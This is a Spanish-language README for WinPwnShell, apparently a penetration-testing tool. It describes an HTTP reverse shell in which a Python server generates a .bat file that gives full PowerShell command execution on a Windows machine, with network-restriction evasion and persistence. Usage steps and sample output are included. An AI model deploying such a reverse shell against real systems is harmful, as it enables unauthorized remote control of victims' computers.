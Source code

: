 
# WinPwnShell

**WinPwnShell** es una herramienta que implementa una reverse shell utilizando HTTP para la comunicación remota entre un servidor Python y un cliente Windows que ejecuta un script PowerShell. Está diseñada para pruebas de penetración y administración remota en entornos controlados.

## Características

- Comunicación vía HTTP, lo que permite evadir algunas restricciones de red.
- Utiliza PowerShell en Windows para ejecutar comandos y devolver resultados al servidor Python.
- Soporta comandos remotos y envío de salidas en tiempo real.
- Mantiene la persistencia en la máquina cliente mientras el servidor esté activo.
- Fácil de configurar y usar, con una interfaz en la consola.

## Requerimientos

- Python 3.x en el servidor.
- PowerShell en el cliente (Windows).
- Conexión HTTP entre el servidor y el cliente.

## Instalación

1. Clona el repositorio:
   ```bash
   git clone https://github.com/tu-usuario/WinPwnShell.git
   cd WinPwnShell
   ```

2. Ejecuta el servidor en tu máquina atacante:
   ```bash
   python3 winpwnshell.py <url> <puerto>
   ```

   Ejemplo:
   ```bash
   python3 winpwnshell.py http://servidor.ejemplo.com 8080
   ```

3. En la máquina Windows, ejecuta el archivo `.bat` generado para iniciar la conexión y recibir comandos.

## Uso

### Comandos disponibles

WinPwnShell permite ejecutar todos los comandos disponibles en la máquina Windows. Esto incluye cualquier comando que la máquina cliente sea capaz de procesar a través de PowerShell, dándole al servidor control total sobre la ejecución remota.

- **exit**: Finaliza la conexión entre el servidor y el cliente, pero **no cierra** la sesión de PowerShell en la máquina Windows.

Además, la herramienta genera un archivo de log que registra todos los comandos enviados y las salidas recibidas, lo que permite hacer un seguimiento de las acciones realizadas durante la sesión.

### Ejemplo

1. Al ejecutar el servidor:
   ```bash
   python3 winpwnshell.py http://servidor.ejemplo.com 8080
   ```

   Recibirás un mensaje similar a:
   ```
   Archivo .bat creado exitosamente: winpwnshell.bat
   Esperando respuesta de la máquina Windows.
   Servidor corriendo en http://0.0.0.0:8080
   ```

2. Después de ejecutar el archivo `.bat` en la máquina Windows, el servidor mostrará:
   ```
   Salida del comando:
   Conexion establecida satisfactoriamente
   ```

3. Ahora puedes ejecutar comandos desde el servidor:
   ```bash
   shell$ whoami
   ```

   La respuesta en la consola será:
   ```
   PC-1/desktop
   ```

4. Para cerrar la conexión, escribe `exit`:
   ```bash
   shell$ exit
   ```

   El servidor responderá:
   ```
   Comando 'exit' enviado a la máquina Windows.
   Conexión terminada. Cerrando servidor...
   ```

## Licencia

Este proyecto está licenciado bajo los términos de la [Licencia MIT](LICENSE).

